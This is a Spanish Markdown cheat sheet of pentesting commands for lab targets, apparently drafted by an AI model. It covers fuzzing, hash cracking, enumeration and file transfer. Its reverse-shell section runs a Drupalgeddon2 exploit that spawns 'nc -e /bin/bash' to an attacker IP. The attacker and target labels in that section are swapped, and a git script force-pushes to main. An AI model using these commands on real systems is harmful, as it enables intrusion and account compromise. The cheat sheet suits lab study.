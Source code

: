 De acuerdo. El siguiente es el contenido que se sugiere agregar en un **NUEVO ARCHIVO** llamado `99-VARIOS/comandos_utiles.md`. Aquí está el contenido en formato Markdown:

```markdown
## Comandos Útiles para Ciberseguridad, Pentesting y Hacking Ético

Esta sección contiene comandos útiles para diversas tareas en ciberseguridad, pentesting y hacking ético, con una breve descripción de su función.

### HTTP Requests y Fuzzing

*   **curl**: Realizar peticiones HTTP para interactuar con servidores web.

```bash
curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum  # Obtiene el hash MD5 de un recurso web.
curl http://10.10.245.129/ -v  # Realiza una petición HTTP y muestra información detallada.
```

*   **ffuf**: Realizar fuzzing en directorios y parámetros de aplicaciones web para descubrir vulnerabilidades.

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.10.245.129/FUZZ  # Fuzzing de la URL con una lista de palabras.
```

*   **dirb, gobuster**: Descubrir directorios y archivos ocultos en servidores web mediante fuerza bruta.

```bash
dirb http://10.10.245.129/ /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt  # Busca directorios en el sitio web.
gobuster dir --url http://10.10.245.129/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt  # Similar a dirb, pero con más opciones.
```

### Cracking y Hashing

*   **Hashcat**: Descifrar hashes de contraseñas utilizando diferentes métodos (diccionario, fuerza bruta, etc.).

```bash
hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt  # Descifra un hash MD5 con sal usando un diccionario.
```

*   **Generar Hashes**: Calcular hashes MD5 y SHA256 para verificar la integridad de archivos o datos.

```bash
echo -n "LearnTheHashFunction" | md5sum  # Calcula el hash MD5 de la cadena.
echo -n "ThisIsAMoreSecureHashFunction" | sha256sum  # Calcula el hash SHA256 de la cadena.
echo -n "ThisIsAMoreSecureHashFunction" | sha256sum | awk '{printf $1}' | md5sum  # Calcula el hash MD5 del hash SHA256.
```

*   **John the Ripper**: Descifrar hashes de contraseñas utilizando diferentes formatos y diccionarios.

```bash
john --format=drupal7 --wordlist=/usr/share/wordlists/rockyou.txt ~/CTFs/VulnHub/DC-1/admin_hash.txt  # Descifra un hash de Drupal 7 usando un diccionario.
```

### Base64

*   **Codificación y Decodificación Base64**: Codificar datos binarios en texto ASCII para facilitar su transmisión.

```bash
base64 -d base64-c6d8efd649ad94af23eb2bd2af63edd0.txt  # Decodifica una cadena Base64.
echo -n "recuerdaquebase64NOescifrar" | md5sum  # Muestra que Base64 no cifra, solo codifica.
# Resultado: cf9df460535b4ec175a464c6c120d3fe
```

### Scripting

*   **Script de Git en Bash**: Automatizar comandos de Git para la gestión de versiones.

```bash
#!/bin/bash

# Cambia al directorio deseado
cd 'C:\Users\renek\OneDrive\Documentos\P Y T  H O N\'

# Ejecuta comandos de Git
git add .
git commit -m 'Update changes from PC'
git push origin main --force
```

### Reverse Shell

*   **Atacante**: Establecer una reverse shell utilizando una vulnerabilidad en Drupal y netcat.

```bash
python2 drupalgeddon2.py -h http://10.0.2.5 -c 'nohup nc -e /bin/bash 10.0.2.15 9000 &'  # Explota la vulnerabilidad y establece la conexión.
```

*   **Objetivo**: Escuchar conexiones entrantes con netcat para recibir la shell.

```bash
nc -lnvp 9000  # Escucha en el puerto 9000.
```

### Enumeración

*   **Buscar archivos SUID**: Identificar archivos con permisos SUID que pueden permitir la elevación de privilegios.

```bash
find / -perm -u=s 2>/dev/null  # Busca archivos con el bit SUID activado.
```

*   **WhatWeb**: Identificar tecnologías utilizadas en un sitio web para identificar posibles vectores de ataque.

```bash
whatweb <ip> | awk '{gsub(/], /, "],\n" ); print}'  # Escanea el sitio web y formatea la salida.
```

### Manipulación de Archivos

*   Mostrar contenido:

```bash
cat archivo.txt
```

*   Codificar en Base64:

```bash
cat archivo.txt | base64
```

*   Decodificar Base64:

```bash
echo "cGFsbGFiaHJhcw==" | base64 -d
```

*   Calcular hash MD5:

```bash
md5sum archivo.txt
```

*   Calcular hash SHA-256:

```bash
sha256sum archivo.txt
```

### Descarga de Archivos (Wget)

*   **wget**: Permite descargar archivos desde la web a través de HTTP.

```bash
wget https://ejemplo.com/archivo.txt  # Descarga un archivo específico
wget -O nuevo_nombre.txt https://ejemplo.com/archivo.txt  # Guarda el archivo con otro nombre
wget -r -np -nH https://ejemplo.com/directorio/  # Descarga recursivamente un directorio
```

### Transferencia de Archivos con SCP (SSH)

*   **scp**: Permite copiar archivos de forma segura entre dos sistemas usando el protocolo SSH.

```bash
scp archivo.txt usuario@192.168.1.30:/home/usuario/destino.txt  # Copia un archivo a un sistema remoto
scp usuario@192.168.1.30:/home/usuario/archivo.txt ./  # Copia un archivo desde un sistema remoto al actual
scp -r directorio usuario@192.168.1.30:/home/usuario/  # Copia un directorio completo a un sistema remoto
```

### Servidor Web Simple (Python)

*   `python3 -m http.server`: Inicia un servidor HTTP en el puerto 8000 para compartir archivos localmente.

```bash
python3 -m http.server
python3 -m http.server 8080
python3 -m http.server --directory /ruta/del/directorio/
```

### Acceso a un Bash del Sistema con Meterpreter

*   `python -c "import pty; pty.spawn('/bin/bash')"`: Permite obtener acceso a un bash del sistema a través de Meterpreter.

### Fuerza Bruta y Análisis de Directorios

*   **ffuf**:

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.10.245.129/FUZZ
```

*   **dirb**:

```bash
dirb http://10.10.245.129/ /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

*   **gobuster**:

```bash
gobuster dir --url http://10.10.245.129/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
```
